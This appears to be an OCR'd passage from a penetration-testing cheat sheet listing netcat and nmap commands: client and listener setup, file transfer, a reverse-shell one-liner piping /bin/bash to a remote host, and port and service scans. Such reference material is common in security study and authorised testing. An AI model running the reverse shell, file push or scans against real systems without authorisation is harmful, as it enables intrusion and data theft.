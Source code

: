 ### Basic Client

```bash
$ nc [IP] [PORT]
```

### Basic Listener

```bash
$ nc -lp [PORT]
```

### File Transfer

Setup a listener:

```bash
$ nc -lp [PORT] > /path/to/outfile
```

Push a file:

```bash
$ nc -w3 [IP] [PORT] < /path/to/infile
```

### Send a Reverse Shell

```bash
$ nc [HOST_IP] [PORT] -e /bin/bash
```

## nmap

A tool for discovering what services are running on each port for a given host.

**Basic Syntax**

Scan a target:

```bash
$ nmap a.b.c.d
```

General purpose command:

```bash
$ nmap -v -sC -sV -oA nmap/ a.b.c.d
```

Troubleshooting:

```bash
$ nmap -Pn a.b.c.d
$ nmap -v a.b.c.d
```

### Extra Information
